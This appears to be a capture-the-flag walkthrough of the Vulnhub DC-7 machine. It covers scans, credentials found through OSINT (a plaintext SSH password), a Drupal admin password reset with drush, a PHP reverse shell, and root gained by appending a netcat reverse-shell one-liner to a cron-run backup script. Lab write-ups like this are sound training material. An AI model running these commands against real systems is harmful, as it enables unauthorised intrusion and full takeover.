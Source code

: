 ```yaml
---
title:     "Vulnhub - DC 7"
tags: [medium,drupal,cron]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : <https://www.vulnhub.com/entry/dc-7,356/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username<br/>

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/10.png)

I found this 
><https://www.drupal.org/project/php>

I clicked on the Install new module button and uploaded this!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/14.png)

Wait for sometime because cron is running!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/15.png)

We got Root !!












